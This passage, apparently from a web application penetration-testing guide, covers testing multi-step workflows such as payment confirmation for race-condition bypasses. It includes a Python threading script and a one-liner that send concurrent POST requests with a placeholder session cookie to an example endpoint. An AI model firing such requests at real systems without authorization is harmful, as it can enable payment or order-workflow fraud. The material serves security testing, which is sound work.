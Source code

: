 **Tip**: Save Intruder responses as screenshots or exports. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 7. Test Concurrent Workflow Manipulation

**Objective**: Detect workflow bypasses caused by concurrent requests exploiting weak state validation.

**Steps**:
1. **Identify Workflow**:
   - Use Burp Suite to map a multi-step process (e.g., `/payment` -> `/confirm`).
2. **Send Concurrent Requests**:
   - Use Python to send multiple `/confirm` requests simultaneously.
3. **Analyze Responses**:
   - Check for successful bypasses indicating race conditions.

**Python Script**:
```python
import requests
import threading
import sys

url = 'http://example.com/confirm'
data = {'order_id': '123'}
cookies = {'session': 'abc123'}

def send_request():
    try:
        response = requests.post(url, data=data, cookies=cookies, timeout=5)
        print(f"Status: {response.status_code}, Response: {response.text[:100]}")
    except requests.RequestException as e:
        print(f"Error: {e}")

threads = []
for _ in range(10):
    t = threading.Thread(target=send_request)
    threads.append(t)
    t.start()
for t in threads:
    t.join()
```

**Python Commands**:
- **Command 1**: Run the concurrent test:
  ```bash
  python3 test_concurrent_bypass.py
  ```
- **Command 2**: Test single concurrent request for verification:
  ```bash
  python3 -c "import requests; url='http://example.com/confirm'; data={'order_id': '123'}; cookies={'session': 'abc123'}; r=requests.post(url, data=data, cookies=cookies, timeout=5); print(r.status_code, r.text[:100])"
  ```
